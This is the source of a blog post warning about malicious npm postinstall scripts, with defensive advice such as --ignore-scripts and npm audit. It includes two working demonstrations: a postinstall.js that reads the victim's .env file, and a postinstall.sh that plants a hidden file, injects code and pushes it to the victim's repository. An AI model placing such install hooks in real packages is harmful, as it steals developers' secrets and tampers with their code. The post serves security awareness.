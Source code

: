 ```yaml
---
layout: post
title:  "NPM and Evil Scripts"
date:   2019-06-10 01:04:13 +0300
category: technology
tags:
  - NPM
  - Javascript
---
```


If you are writing javascript, then you probably used NPM. And you probably heard the cries of many javascript developers of how people are overusing NPM packages as dependencies without worrying. If you are one of these people who are not worried, you definitely should be. In this post, I will try to show you one of the reasons why you should be worried.

## Incidents of the Past

Have you heard about the [eslint-scope hijack](https://eslint.org/blog/2018/07/postmortem-for-malicious-package-publishes)? or perhaps the [event-stream incident](https://github.com/dominictarr/event-stream/issues/116)? or just last June when the NPM security team ["foiled a plot to steal cryptocurrency"](https://blog.npmjs.org/post/185397814280/plot-to-steal-cryptocurrency-foiled-by-the-npm)?

Stolen credentials of one developer, a new maintainer, and a malicious package publisher. All lead to different types of security incidents.

New packages are being published to NPM every day. Many of them are useful, some are not so much, and some are malicious. From phishing attempts to make you install the wrong package, to packages that try to steal or manipulate your system files.

## NPM Scripts

Have you ever used `npm start` or `npm test` or even `npm install`? If so then you are already using NPM scripts. There are few scripts defined by NPM: start, test, and install are few examples. You can read the full list of all predefined scripts in the [NPM documentations](https://docs.npmjs.com/misc/scripts). Additionally, you can define your own scripts and run them with `npm run mycommand`.

## The Dangers of NPM Scripts

Reading NPM documentation about the `postinstall` script:
> Run AFTER the package is installed

This could be useful in many instances, and also dangerous in other situations.

Let's take few examples of how the `postinstall` script can be used by malicious developers to attack you, the poor developer.

## Post Install of Doom Example #1

Let's try something simple. In many node applications, there is a file called `.env`. This file is most likely not committed to source control. It may hold few critical information about your environment. Let's steal it, shall we?!! I will first create a normal npm package, that literally does nothing.

1. First create the package directory:

    ```console
    $ mkdir blog-npm-scripts && cd blog-npm-scripts
    ```

2. Create a `postinstall.js` file and let's try to read the `.env` file:

    ```javascript
    const Path = require('path');
    const fs = require('fs');

    // example: steal stuff from your code-base: an environment file for example
    const workingDirectory = process.cwd();

    const envFilePath = Path.join(workingDirectory, '../..', '.env');

    fs.readFile(envFilePath, 'utf8', (err, data) => {
        if (err) {}

        // I can do whatever
        // for example: I can send these to a remote server!
        console.log(data);
    });
    ```

    Your package is installed under `node_module/blog-npm-scripts`. The code above tries to break out of the `node_modules` directory into the root of the victim's codebase.

3. Add postinstall script in `package.json`:

    ```json
    {
      "name": "blog-npm-scripts",
      "version": "1.0.0",
      "description": "",
      "main": "index.js",
      "scripts": {
        "postinstall": "node ./postinstall.js"
      },
      "author": "",
      "license": "MIT"
    }
    ```

4. An unsuspecting developers installs your package:

    ![example #1 result](/assets/images/npm-evil-scripts-result-1.png)

And done!! We stole this poor developer's environment files.

## Post Install of Doom Example #2

Let's try something slightly more extreme. Let's target those who are using some kind of credential helpers. These users will be most likely auto logged in when executing git commands. Let's try to leverage that to our advantage and inject some code into their codebase.

This time, we will use a shell script.

1. Create a `postinstall.sh` file:

    ```console
      # break outside node_modules
      cd ../..

      # create sneaky javascript file
      touch .sneaky.js

      echo 'module.exports = () => console.log("You cannot even see me")' >> .sneaky.js

      echo 'require("./.sneaky.js")()' >> index.js

      LAST_MESSAGE="$(git log -1 --pretty=%B)"

      git add .

      git commit -m "$LAST_MESSAGE"

      git push origin master
    ```

    The script above creates a file called `.sneaky.js` in the codebase root directory then attempts to push that code to source control using the last commit message.

2. Replace the `postinstall` script in `package.json`:

    ```json
      {
        "scripts": {
          "postinstall": "sh ./postinstall.sh"
        }
      }
    ```

3. An unsuspecting developers installs your package:
    ![example #2 result](/assets/images/npm-evil-scripts-result-2.png)
    As you can see the code was pushed to Github.

## Possibilities are Endless

These are just two simple examples. There are more complex and infinite ways malicious publishers can exploit these scripts. They can trick you into executing sudo commands using `"postinstall": "sudo whatever"`, modify or corrupt your system files, steal valuable information, or install malicious software.

## What can I do?

Few words of advice:
1. Don't install packages for everything.
2. If you install something, do a background check:
    - Ensure the package has a repository link.
    - Ensure the package is actively being maintained.
    - Ensure there is a way of reporting issues and bugs.
    - NPM audits: run `npm audit` to find what are the vulnerable packages.
3. Run npm install with the `--ignore-scripts` flag.
4. If you find a malicious package, report it immediately.

NPM is great but just like other great things, it can be used to do harm. Don't trust everything on NPM blindly.